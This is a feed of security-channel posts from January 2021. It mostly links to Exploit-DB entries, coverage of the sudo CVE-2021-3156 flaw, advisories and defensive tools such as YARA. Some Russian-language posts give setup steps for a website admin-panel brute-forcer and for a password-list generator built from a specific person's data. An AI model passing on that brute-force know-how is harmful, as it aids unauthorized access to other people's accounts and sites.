

# chkpchat
`2021-01-31 20:00:35`

<blockquote>
https://supportcenter.checkpoint.com/supportcenter/portal?eventSubmit_doGoviewsolutiondetails&#61;&amp;solutionid&#61;sk171751
</blockquote>

<table><tr><td><b>→</b><a href="https://supportcenter.checkpoint.com/supportcenter/portal?eventSubmit_doGoviewsolutiondetails=&solutionid=sk171751">
https://supportcenter.checkpoint.com/supportcenter/portal?eventSubmit_doGoviewsolutiondetails=&solutionid=sk171751
</a>
<blockquote>
CVE-2021-3156 states: &quot;Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via &quot;sudoedit -s&quot; and a command-line argument that ends with a single backslash character.&quot; For more information, refer to &lt;a href&#61;&quot;https://www.sudo.ws/stable.html&#35;1.9.5p2&quot; target&#61;&quot;_blank&quot;&gt;https://www.sudo.ws/stable.html&#35;1.9.5p2&lt;/a&gt;
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-30 18:13:44`

<blockquote>
https://chowdera.com/2021/01/20210128144518068v.html
</blockquote>

<table><tr><td><b>→</b><a href="https://chowdera.com/2021/01/20210128144518068v.html">
https://chowdera.com/2021/01/20210128144518068v.html
</a>
<blockquote>
Vulnerability Details  CVE 2021 3156:  Buffer overflow vulnerability
</blockquote>
</td></tr></table>

---

# isast
`2021-01-29 22:24:39`

<blockquote>
Sourcetrail is:
 - free
 - working offline
 - operating on Windows, macOS and Linux
 - supporting C, C++, Java and Python
 - offering an SDK (SourcetrailDB) to write custom language extensions

Sourcetrail - free and open-source interactive source explorer
https://github.com/CoatiSoftware/Sourcetrail
</blockquote>

---

# phd_soc
`2021-01-29 19:19:31`

<blockquote>
https://github.com/synlay/logstash-filter-cache-redis
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/synlay/logstash-filter-cache-redis">
https://github.com/synlay/logstash-filter-cache-redis
</a>
<blockquote>
Redis cache filter for Logstash. Contribute to synlay/logstash-filter-cache-redis development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 13:53:32`

<blockquote>
[webapps] SonicWall SSL-VPN 8.0.0.0 - 'shellshock/visualdoor' Remote Code Execution (Unauthenticated)
https://www.exploit-db.com/exploits/49499

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49499">
https://www.exploit-db.com/exploits/49499
</a>
<blockquote>
SonicWall SSL-VPN 8.0.0.0 - 'shellshock/visualdoor' Remote Code Execution (Unauthenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 12:53:12`

<blockquote>
How to detect sudo’s CVE-2021-3156 using Falco
https://www.reddit.com/r/netsec/comments/l759hy/how_to_detect_sudos_cve20213156_using_falco/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/l759hy/how_to_detect_sudos_cve20213156_using_falco/">
https://www.reddit.com/r/netsec/comments/l759hy/how_to_detect_sudos_cve20213156_using_falco/
</a>
<blockquote>
23 votes and 5 comments so far on Reddit
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 11:53:28`

<blockquote>
[webapps] Simple Public Chat Room 1.0 - 'msg' Stored Cross-Site Scripting
https://www.exploit-db.com/exploits/49498

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49498?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49498?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Simple Public Chat Room 1.0 - 'msg' Stored Cross-Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 11:53:26`

<blockquote>
[webapps] Simple Public Chat Room 1.0 - Authentication Bypass SQLi
https://www.exploit-db.com/exploits/49497

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49497?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49497?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Simple Public Chat Room 1.0 - Authentication Bypass SQLi.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 11:53:26`

<blockquote>
[webapps] MyBB Hide Thread Content Plugin 1.0 - Information Disclosure
https://www.exploit-db.com/exploits/49496

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49496?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49496?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
MyBB Hide Thread Content Plugin 1.0 - Information Disclosure. CVE-2021-3337 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 11:53:24`

<blockquote>
[webapps] Home Assistant Community Store (HACS) 1.10.0 - Path Traversal to Account Takeover
https://www.exploit-db.com/exploits/49495

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49495">
https://www.exploit-db.com/exploits/49495
</a>
<blockquote>
Home Assistant Community Store (HACS) 1.10.0 - Path Traversal to Account Takeover.. webapps exploit for Python platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 11:53:23`

<blockquote>
[webapps] Quick.CMS 6.7 - Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/49494

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49494">
https://www.exploit-db.com/exploits/49494
</a>
<blockquote>
Quick.CMS 6.7 - Remote Code Execution (Authenticated). CVE-2020-35754 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 11:53:22`

<blockquote>
[webapps] Online Grading System 1.0 - 'uname' SQL Injection
https://www.exploit-db.com/exploits/49493

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49493">
https://www.exploit-db.com/exploits/49493
</a>
<blockquote>
Online Grading System 1.0 - 'uname' SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-29 11:53:21`

<blockquote>
[webapps] BloofoxCMS 0.5.2.1 - 'text' Stored Cross Site Scripting
https://www.exploit-db.com/exploits/49492

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49492?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49492?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
BloofoxCMS 0.5.2.1 - 'text' Stored Cross Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 18:53:37`

<blockquote>
[local] Metasploit Framework 6.0.11 - msfvenom APK template command injection
https://www.exploit-db.com/exploits/49491

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49491">
https://www.exploit-db.com/exploits/49491
</a>
<blockquote>
Metasploit Framework 6.0.11 - msfvenom APK template command injection. CVE-2020-7384 . local exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# isast
`2021-01-28 14:51:48`

* https://kali.tools/?p=3245
* https://github.com/VirusTotal/yara/

<blockquote>
https://kali.tools/?p&#61;3245

YARA — это инструмент направленный (но не ограничивающийся этим) на помощью исследователям вредоносного программного обеспечения для идентификации и классификации образцов зловредных программ. С YARA вы можете создать описания семей вредоносных программ (или чего-либо, что захотите описать) на основе текстовых или бинарных образцов. Каждое описание (ещё называемое «правило») состоит из набора строк и булевых выражений, которые определяют его логику. Взгляните на пример:
rule silent_banker : banker
{
    meta:
        description &#61; &quot;This is just an example&quot;
        threat_level &#61; 3
        in_the_wild &#61; true
 
    strings:
        $a &#61; {6A 40 68 00 30 00 00 6A 14 8D 91}
        $b &#61; {8D 4D B0 2B C1 83 C0 27 99 6A 4E 59 F7 F9}
        $c &#61; &quot;UVODFRYSIHLNWPEJXQZAKCBGMT&quot;
 
    condition:
        $a or $b or $c
}
Вышеприведённое правило говорит YARA, что о файле, содержащем одну из трёх строк, нужно сообщить как о silent_banker. Это простой пример, более сложные и мощные правила можно создавать используя постановочные символы, чувствительные к регистру строки, регулярные выражения, специальные операторы и многие другие функции, описанные в документации YARA.

YARA является многоплатформенной, работает на Windows, Linux и Mac OS X и может использоваться как из её интерфейся командной строки, так и из ваших собственных скриптов Python через расширение yara-python.

Если вы планируете использовать YARA для сканирования сжатых файлов (.zip, .tar и т. д.), то обратите внимание на yextend, очень полезное расширение для YARA с открытым исходным кодом.

Домашняя страница: https://github.com/VirusTotal/yara/

Автор: Google Inc., Victor M. Alvarez и другие авторы

Лицензия: BSD-3-Clause
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/VirusTotal/yara">
https://github.com/VirusTotal/yara
</a>
<blockquote>
The pattern matching swiss knife. Contribute to VirusTotal/yara development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# isast
`2021-01-28 14:49:48`

<blockquote>
https://github.com/virustotal/yara
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/virustotal/yara">
https://github.com/virustotal/yara
</a>
<blockquote>
The pattern matching swiss knife. Contribute to VirusTotal/yara development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-28 14:01:12`

<blockquote>
Брутфорс админки сайта в termux [root](https://telegra.ph/Brutfors-adminki-sajta-v-termux-root-07-17)
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Brutfors-adminki-sajta-v-termux-root-07-17">
https://telegra.ph/Brutfors-adminki-sajta-v-termux-root-07-17
</a>
<blockquote>
Всем привет! нашел инструмент для брута админок сайтов на популярных cms. Программа сама определяет какая cms стоит на сайте. Но к сожалению программе нужен рут. Перейдем к установке. Источник статьи Обновим пакеты: apt update &amp;&amp; apt upgrade Теперь скачаем python: apt install python python2 Также нужен git, curl, tor и tsu: apt install git curl tor tsu Теперь качаем сам инструмент: git clone https://github.com/moli1369/brutecms Открываем папку с ним: cd brutecms И делаем файл исполняемым: chmod +x brutecms.sh…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 13:53:39`

<blockquote>
[webapps] WordPress Plugin SuperForms 4.9 - Arbitrary File Upload to Remote Code Execution
https://www.exploit-db.com/exploits/49490

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49490">
https://www.exploit-db.com/exploits/49490
</a>
<blockquote>
WordPress Plugin SuperForms 4.9 - Arbitrary File Upload to Remote Code Execution.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 13:53:38`

<blockquote>
[dos] jQuery UI 1.12.1 - Denial of Service (DoS)
https://www.exploit-db.com/exploits/49489

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49489">
https://www.exploit-db.com/exploits/49489
</a>
<blockquote>
jQuery UI 1.12.1 - Denial of Service (DoS).. dos exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 13:53:37`

<blockquote>
[webapps] Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/49488

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49488">
https://www.exploit-db.com/exploits/49488
</a>
<blockquote>
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated).. webapps exploit for ASPX platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 13:53:36`

<blockquote>
[webapps] Fuel CMS 1.4.1 - Remote Code Execution (2)
https://www.exploit-db.com/exploits/49487

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49487?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49487?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Fuel CMS 1.4.1 - Remote Code Execution (2). CVE-2018-16763 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 12:53:42`

<blockquote>
[webapps] OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)
https://www.exploit-db.com/exploits/49486

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49486?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49486?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 12:53:41`

<blockquote>
[webapps] CMSUno 1.6.2 - 'lang/user' Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/49485

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49485">
https://www.exploit-db.com/exploits/49485
</a>
<blockquote>
CMSUno 1.6.2 - 'lang/user' Remote Code Execution (Authenticated). CVE-2020-25557CVE-2020-25538 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-28 11:53:08`

<blockquote>
[webapps] EgavilanMedia PHPCRUD 1.0 - 'Full Name' Stored Cross Site Scripting
https://www.exploit-db.com/exploits/49484

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49484">
https://www.exploit-db.com/exploits/49484
</a>
<blockquote>
EgavilanMedia PHPCRUD 1.0 - 'Full Name' Stored Cross Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-28 09:48:36`

* https://telegra.ph/Poluchaem-proksi-servera-09-06

<blockquote>
Получаем прокси сервера
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Poluchaem-proksi-servera-09-06">
https://telegra.ph/Poluchaem-proksi-servera-09-06
</a>
<blockquote>
Всем привет! Нашел инструмент для получения прокси давайте сразу перейдем к установке. источник статьи Качаем гит apt install git Python 3: apt install python Качаем requests: pip3 install requests Качаем инструмент: git clone https://github.com/04x/HttpLiveProxyGrabber.git Открываем папку с ним: cd HttpLiveProxyGrabber Теперь запускаем: python ProxGrab.py Пишем 1 enter, далее начальный ip, конечный ip и порт. сохраняем это в файл, и заново запускаем, только теперь пишем 2 и список в txt, прога начнет…
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-28 09:09:05`

* https://telegra.ph/Generiruem-paroli-dlya-bruta-pod-opredelennogo-cheloveka-07-11-2

<blockquote>
Генерация паролей для брута под определенного человека
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Generiruem-paroli-dlya-bruta-pod-opredelennogo-cheloveka-07-11-2">
https://telegra.ph/Generiruem-paroli-dlya-bruta-pod-opredelennogo-cheloveka-07-11-2
</a>
<blockquote>
Всем привет! Рассказал уже про два инструмента для брута, теперь расскажу как создать словарь по данным которые у вас имеются о человеке. Источник статьи Сначала обновим все: pkg update -y &amp;&amp; pkg upgrade -y Теперь качаем нужные пакеты: pkg install python git Осталось клонировать нужный нам репозиторий: git clone https://github.com/utpalbalse/PasswordListGener Открыть его папку: cd PasswordListGener И запустить сам файл: python setup.py После того как вы заполните нужные поля для создания словаря, у вас…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 17:53:42`

<blockquote>
Sudo Heap-Based Buffer Overflow
https://packetstormsecurity.com/files/161160/QSA-CVE-2021-3156.txt

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/161160/QSA-CVE-2021-3156.txt">
https://packetstormsecurity.com/files/161160/QSA-CVE-2021-3156.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 16:53:47`

<blockquote>
Heap-based buffer overflow in Sudo (CVE-2021-3156) - obtained full root privileges on Ubuntu 20.04 (Sudo 1.8.31), Debian 10 (Sudo 1.8.27), and Fedora 33 (Sudo 1.9.2)
https://www.reddit.com/r/netsec/comments/l5nfwv/heapbased_buffer_overflow_in_sudo_cve20213156/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/l5nfwv/heapbased_buffer_overflow_in_sudo_cve20213156/">
https://www.reddit.com/r/netsec/comments/l5nfwv/heapbased_buffer_overflow_in_sudo_cve20213156/
</a>
<blockquote>
Posted in r/netsec by u/digicat • 431 points and 79 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 16:53:35`

<blockquote>
Security Advisory: MSRPC Printer Spooler Relay (CVE-2021-1678)
https://www.reddit.com/r/netsec/comments/l47z6w/security_advisory_msrpc_printer_spooler_relay/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/l47z6w/security_advisory_msrpc_printer_spooler_relay/">
https://www.reddit.com/r/netsec/comments/l47z6w/security_advisory_msrpc_printer_spooler_relay/
</a>
<blockquote>
Posted in r/netsec by u/disclosure5 • 2 points and 0 comments
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-27 12:52:23`

<blockquote>
⚠️Buffer overflow in sudo (linux utility) - ❗️ affects most distributions/versions - CVE-2021-3156
While a local user is required to exploit this vulnerability, even the account 'nobody' can exploit this vulnerability. An unprivileged user can gain root privileges on affected hosts!

Check if you are affected!
To check if you are affected, run sudoedit -s / as non-root user. If the response is sudoedit: your system is vulnerable.

The following &quot;sudo&quot; versions are vulnerable
* All legacy versions from 1.8.2 to 1.8.31p2
* All stable versions from 1.9.0 to 1.9.5p1

Severity: 🔸High

Additional information
https://yt.gl/sudobufferoverflow

&#35;alert &#35;severityHigh &#35;vulnerability &#35;linux &#35;sudo 

🌟 Feel free to discuss this issue in @itsectalk 👍 Please vote if this information was helpful to you.
</blockquote>

<table><tr><td><b>→</b><a href="https://yt.gl/sudobufferoverflow">
https://yt.gl/sudobufferoverflow
</a>
<blockquote>
Update Feb 3, 2021: It has been reported that macOS, AIX, and Solaris are also vulnerable to CVE-2021-3156, and that others may also still be vulnerable. Qualys has not independently verified the…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 11:53:21`

<blockquote>
[webapps] Openlitespeed Web Server 1.7.8 - Command Injection (Authenticated)
https://www.exploit-db.com/exploits/49483

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49483?utm_source=dlvr.it&utm_medium=">
https://www.exploit-db.com/exploits/49483?utm_source=dlvr.it&utm_medium=
</a>
<blockquote>
Openlitespeed Web Server 1.7.8 - Command Injection (Authenticated) (1).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 11:53:19`

<blockquote>
Критическая уязвимость в sudo, позволяющая получить привилегии root
https://www.opennet.ru/opennews/art.shtml?num&#61;54474

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=54474">
https://www.opennet.ru/opennews/art.shtml?num=54474
</a>
<blockquote>
Исследователи безопасности из компании Qualys выявили критическую уязвимость (CVE-2021-3156) в утилите sudo, предназначенной для организации выполнения команд от имени других пользователей. Уязвимость позволяет получить доступ с правами root без прохождения аутентификации и без наличия необходимых полномочий. Проблема может быть эксплуатирована любым пользователем, независимо от присутствия в системных группах и наличия записи в файле /etc/sudoers. Для атаки не требуется ввод пароля пользователя, т.е. уязвимость может применяться посторонним для повышения привилегий в системе после компрометации уязвимости в непривилегированном процессе (в том числе запускаемом под пользователем &quot;nobody&quot;).
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 11:53:18`

<blockquote>
[webapps] STVS ProVision 5.9.10 - Cross-Site Request Forgery (Add Admin)
https://www.exploit-db.com/exploits/49482

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49482?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49482?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
STVS ProVision 5.9.10 - Cross-Site Request Forgery (Add Admin).. webapps exploit for Ruby platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 11:53:16`

<blockquote>
[webapps] STVS ProVision 5.9.10 - File Disclosure (Authenticated)
https://www.exploit-db.com/exploits/49481

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49481">
https://www.exploit-db.com/exploits/49481
</a>
<blockquote>
STVS ProVision 5.9.10 - File Disclosure (Authenticated).. webapps exploit for Ruby platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-27 10:56:54`

<blockquote>
https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
</blockquote>

<table><tr><td><b>→</b><a href="https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit">
https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
</a>
<blockquote>
Update Feb 3, 2021: It has been reported that macOS, AIX, and Solaris are also vulnerable to CVE-2021-3156, and that others may also still be vulnerable. Qualys has not independently verified the…
</blockquote>
</td></tr></table>

---

# isast
`2021-01-27 10:48:48`

<blockquote>
OWASP Devsecops Maturity Model

Когда речь заходит о модели оценки зрелости (или в принципе некотором наборе лучших практик) почти всегда вспоминают BSIMM и OWASP SAMM, но оказывается у OWASP есть еще одна модель оценки зрелости - OWASP Devsecops Maturity Model (OWASP DSOMM). Более того, DSOMM и SAMM отлично сосуществуют вместе в рамках единого процесса. Это связано с тем, что цель DSOMM - определить конкретные активности для организации процесса безопасной разработки, а SAMM - задать некоторый roadmap без погружения в детали. 

- Описание активностей, их статуса, связей с SAMM, ISO270001 и друг  другом
- Подробное видео про OWASP DSOMM 
- Ссылка на репозиторий с докладами, инструментами для оценки зрелости и ее визуализации

Еще очень много активностей находятся в стадии to-do, но репозиторий регулярно обновляется.

Кстати, если вы ищите другие альтернативные модели оценки зрелости, то предлагаю взглянуть на Secure development and deployment guidance от UK National Cyber Security Center.

&#35;dev &#35;ops
</blockquote>

---

# cyberoffru
`2021-01-27 10:22:37`

<blockquote>
https://cve.mitre.org/cgi-bin/cvename.cgi?name&#61;2021-3156
2021, прекрати (с)
</blockquote>

<table><tr><td><b>→</b><a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3156">
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3156
</a>
<blockquote>
Common Vulnerabilities and Exposures (CVE®) is a list of records — each containing an identification number, a description, and at least one public reference — for publicly known cybersecurity vulnerabilities. Assigned by CVE Numbering Authorities (CNAs) from around the world, use of CVE Records ensures confidence among parties when used to discuss or share information about a unique software vulnerability, provides a baseline for tool evaluation, and enables data exchange for cybersecurity automation.
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-27 08:23:29`

<blockquote>
Halogen - is a tool to automate the creation of yara rules against image files embedded within a malicious document

https://github.com/target/halogen
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/target/halogen">
https://github.com/target/halogen
</a>
<blockquote>
Automatically create YARA rules from malicious documents.  - target/halogen
</blockquote>
</td></tr></table>

---

# isast
`2021-01-27 08:02:32`

<blockquote>
Релиз MS onefuzz 2.0.0

https://github.com/microsoft/onefuzz

&quot;Added

Agent: Added clarifying context to file system errors. &#35;423

CLI/Service: Significantly expanded the events available for webhooks. &#35;394

Agent: Added {setup_dir} to configuration value expansion &#35;417

Agent: Added {tools_dir} configuration value expansion to {supervisor_options} and {supervisor_env} &#35;444

Changed

CLI/Service: Migrated onefuzz status top to use Webhook Events. (BREAKING CHANGE) &#35;394

CLI/Service: New notification secrets, such as ADO tokens, are managed in Azure KeyVault and are no longer accessible to the user once created. (BREAKING CHANGE) &#35;326, &#35;389

CLI/Service: Updated multiple Python dependencies. &#35;426, &#35;427, &#35;430&quot;
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/microsoft/onefuzz">
https://github.com/microsoft/onefuzz
</a>
<blockquote>
A self-hosted Fuzzing-As-A-Service platform. Contribute to microsoft/onefuzz development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-27 01:53:29`

<blockquote>
APPLE-SA-2021-01-26-4 Xcode 12.4
https://seclists.org/fulldisclosure/2021/Jan/83

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/83">
https://seclists.org/fulldisclosure/2021/Jan/83
</a>
</td></tr></table>

---

# defcon_news
`2021-01-27 01:53:28`

<blockquote>
APPLE-SA-2021-01-26-3 watchOS 7.3
https://seclists.org/fulldisclosure/2021/Jan/82

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/82">
https://seclists.org/fulldisclosure/2021/Jan/82
</a>
</td></tr></table>

---

# defcon_news
`2021-01-27 01:53:26`

<blockquote>
APPLE-SA-2021-01-26-2 tvOS 14.4
https://seclists.org/fulldisclosure/2021/Jan/81

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/81">
https://seclists.org/fulldisclosure/2021/Jan/81
</a>
</td></tr></table>

---

# defcon_news
`2021-01-27 01:53:24`

<blockquote>
APPLE-SA-2021-01-26-1 iOS 14.4 and iPadOS 14.4
https://seclists.org/fulldisclosure/2021/Jan/80

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/80">
https://seclists.org/fulldisclosure/2021/Jan/80
</a>
</td></tr></table>

---

# cyberoffru
`2021-01-26 23:00:49`

<blockquote>
https://github.com/crazy-max/WindowsSpyBlocker
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/crazy-max/WindowsSpyBlocker">
https://github.com/crazy-max/WindowsSpyBlocker
</a>
<blockquote>
Block spying and tracking on Windows. Contribute to crazy-max/WindowsSpyBlocker development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# isast
`2021-01-26 22:35:47`

* https://www.sudo.ws/

<blockquote>
Heap-based buffer overflow in Sudo (CVE-2021-3156)

Nice write-up and root cause analysis of the bug. 

Summary
&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;&#61;

We discovered a heap-based buffer overflow in Sudo
(https://www.sudo.ws/). This vulnerability:

- is exploitable by any local user (normal users and system users,
  sudoers and non-sudoers), without authentication (i.e., the attacker
  does not need to know the user's password);

- was introduced in July 2011 (commit 8255ed69), and affects all legacy
  versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to
  1.9.5p1, in their default configuration.

We developed three different exploits for this vulnerability, and
obtained full root privileges on Ubuntu 20.04 (Sudo 1.8.31), Debian 10
(Sudo 1.8.27), and Fedora 33 (Sudo 1.9.2). Other operating systems and
distributions are probably also exploitable.

https://www.openwall.com/lists/oss-security/2021/01/26/3
</blockquote>

<table><tr><td><b>→</b><a href="https://www.sudo.ws/">
https://www.sudo.ws/
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 21:53:15`

<blockquote>
[REVIVE-SA-2021-002] Revive Adserver Vulnerabilities
https://seclists.org/fulldisclosure/2021/Jan/78

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/78">
https://seclists.org/fulldisclosure/2021/Jan/78
</a>
</td></tr></table>

---

# cyberoffru
`2021-01-26 17:07:26`

